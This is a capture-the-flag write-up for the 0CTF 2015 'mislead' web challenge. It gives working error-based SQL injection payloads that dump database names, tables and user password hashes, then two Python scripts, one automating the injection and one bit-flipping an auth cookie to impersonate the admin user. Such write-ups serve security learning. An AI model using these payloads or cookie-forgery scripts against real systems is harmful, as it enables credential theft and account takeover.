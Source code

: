 +++
author = "pwntester"
date = 2015-03-30T21:41:46Z
description = ""
draft = false
slug = "0ctf-2015-mislead-web-300"
title = "0CTF 2015 - mislead (web 300)"

+++

We are welcomed with a login page where we can register a new account and log in with it.
After logging to the application we received a:
```lang-raw
Hello pwntester. Try to login as 0ops!
```

The first thing I looked for was for SQL injection in the register and login forms. The register one turned to be injectable and we can use Duplicate entry technique to dump the DB:

Get the DB:
```lang-raw
username=pwner10&password='),(select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) );#&submit=Submit
```
Output:
```lang-raw
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'mislead1' for key 'group_key'<br>maybe another username?
```

Get the tables:
```lang-raw
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
 );#&submit=Submit
```
Output:
```lang-raw
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'users~1' for key 'group_key'<br>maybe another username?
```

Get the columns:
```lang-raw
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  );#&submit=Submit
```
Output:
```lang-raw
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'id~1' for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'username~1' for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'password~1' for key 'group_key'<br>maybe another username?
```

Get the first user:
```lang-raw
 username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
```
Output:
```lang-raw
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '0ops~13096de41fe9a97b700d4d9e21665484~1' for key 'group_key'<br>maybe another username?
```

YAY! We have the `MD5` for 0ops's password, we crack it, log in as 0ops and get our flag, easy, isnt it? Well, nope. MD5 is not in any hash DB, so we are back where we started.

One thing stands out when looking at the request:
```lang-raw
GET /mislead/index.php HTTP/1.1
Host: 202.112.26.101
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,es-ES;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: auth=YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA%3D%3D
Referer: http://202.112.26.101/mislead/login.php
Connection: keep-alive
```
Its a php application but its not using PHPSESSIONs but a custom `Auth`instead. This cookie is encoded in `base64` and then encoded in `hexadecimal`. But there is no useful info for us. We can assume that the cookie keeps the application state including the user associated to the session.

At this point, we decide to flip bits in the cookie to see if some changes/break and at some byte(14), the logging message changes and our names is modified. Cool! So we can try to bit-flip the cookie and get the username to be 0ops. For that, the easiest way is to register a name very similar (just one letter off) and bit-flip that byte until we get the right name.

All the usernames I tried were already picked so I started to think that someone register all those users once they got the flag (sign that we are in the right direction). I used the useless SQLi to pwn the pwners:

```lang-python line-numbers
import requests
url = 'http://202.112.26.101//mislead/register.php'
for i in xrange(4000):
	data = {
		'username': 'pwntester',
		'password': "'),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit %d,1),floor(rand(0)*2))x from information_schema.tables group by x)a));#" % i,
		'submit': 'Submit',
	}
	res = requests.post(url, data=data)
	if "ops~" in res.text:
		print res.text
```
We get:
```lang-raw
~/CTFs/tasks/0CTF2k15/mislead> python pwn.py
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '0ops~13096de41fe9a97b700d4d9e21665484~1' for key 'group_key'<br>maybe another username?
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry ' 0ops~698d51a19d8a121ce581499d7b701668~1' for key 'group_key'<br>maybe another username?
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry 'Oops~c8837b23ff8aaa8a2dde915473ce0991~1' for key 'group_key'<br>maybe another username?
```
Ok, I will use `Oops` (Capital O) if md5 is easy to crack which it is `123321`

Now, log with this user and get the cookie: 
```lang-raw
YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA==
```

Using the following script, we can get the flag:
```lang-python line-numbers
import requests
from base64 import b64decode, b64encode
from hexdump import hexdump
import sys
import string

url = 'http://202.112.26.101//mislead/index.php'
OopsCookie = 'YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA=='
binCookie = b64decode(OopsCookie).decode("hex")
bytelength = len(binCookie)

def is_printable(s):
	for ch in s:
		if not ch in string.printable:
			return False
	return True

def flip_byte(msg, pos, byte=0x10):
	msg = msg[:pos] + chr(ord(msg[pos]) ^ byte) + msg[pos+1:]
	return msg

for i in xrange(bytelength):
	res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i).encode("hex"))})
	print i, res.text
	if "Hello" in res.text and "Oops" not in res.text:
		for c in xrange(256):
			res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i, c).encode("hex"))})
			if is_printable(res.text):
				print i, c, res.text
```
Output is:
```lang-raw
14 112 Hello ?ops. Try to login as 0ops!
14 113 Hello >ops. Try to login as 0ops!
14 114 Hello =ops. Try to login as 0ops!
14 115 Hello <ops. Try to login as 0ops!
14 116 Hello ;ops. Try to login as 0ops!
14 117 Hello :ops. Try to login as 0ops!
14 118 Hello 9ops. Try to login as 0ops!
14 119 Hello 8ops. Try to login as 0ops!
14 120 Hello 7ops. Try to login as 0ops!
14 121 Hello 6ops. Try to login as 0ops!
14 122 Hello 5ops. Try to login as 0ops!
14 123 Hello 4ops. Try to login as 0ops!
14 124 Hello 3ops. Try to login as 0ops!
14 125 Hello 2ops. Try to login as 0ops!
14 126 Hello 1ops. Try to login as 0ops!
14 127 Welcome to the 0ops secret place!<br>Just get your flag here :)<br>0ctf{w3_musT_kn0w_S0Me_crYpt0gr4phY}
```

FLAG is: `0ctf{w3_musT_kn0w_S0Me_crYpt0gr4phY}`

